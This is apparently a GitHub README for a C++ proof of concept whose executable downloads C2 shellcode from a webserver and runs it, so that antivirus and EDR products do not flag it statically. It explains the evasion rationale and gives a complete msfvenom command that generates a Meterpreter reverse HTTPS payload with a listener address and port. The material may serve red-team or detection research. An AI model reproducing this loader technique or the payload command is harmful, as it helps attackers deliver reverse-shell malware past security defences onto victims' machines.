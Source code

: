 # Shellcode-Downloader-CreateThread-Execution
Also if you use for example **syscalls (nativ APIs)** to execute C2-shellcode with a .exe, you often have the problem, that 
your **compiled .exe** gets **statically flagged by the AV/EPP/EDR**. Many times the reason for this is, that the **C2-shellcode** 
has to be directly **included as string or as a .bin ressource** in the c++ POC and by that the well known C2-shellcode 
(e.g. Metasploit-, CobaltStrike-, Empire Shellcode etc.) is statically flagged by the AV/EPP/EDR. 
This means, no matter which clever technique you would use to bypass prevention/detection in context of API-Hooking, Kernel Callback Function etc. 
your .exe POC will get flagged before you can ever execute it. Also if you want to **compile a c++ POC** in Visual Studio it isn't possible to **include stageless shellcode** in a char string, because the string is **limited in length** (always stay stageless if possible 😉). 

From my experience, depending on the AV/EPP/EDR it isn't often the most important thing to only care about how to bypass the dynamically prevention/detection of an AV/EPP/EDR. At least equally important is to care about how could I bypass the statically prevetion/detection, to maybe break the chain of a maybe following connected dynamicall or in-memory prevention/detection. 

**This POC gives you the possibility to compile a .exe which downloads and executed your staged or stageless shellcode from a webserver** (for example, Github raw link of hosted stageless MSF-shellcode).

![image](https://user-images.githubusercontent.com/50073731/160273474-4faa8840-1e75-404e-8056-d59aab4d1e5d.png)

By that POC we have the advantage, that the shellcode for the C2 reverse shell isn't included as string or as .bin file in the POC.
Trought that we don't have the problem of statically detection of the C2 shellcode by an AV/EPP/EDR, because the shellcode is hosted 
on a webserver. 



**1. Creating Stageless Shellcode with MSF-Venom**
**kali>** msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.0.1 LPORT=443 -f c --arch x64 --platform windows -o /tmp/meterx64.c

![image](https://user-images.githubusercontent.com/50073731/160273773-3835a406-3500-43fd-b895-5f34e04188be.png)

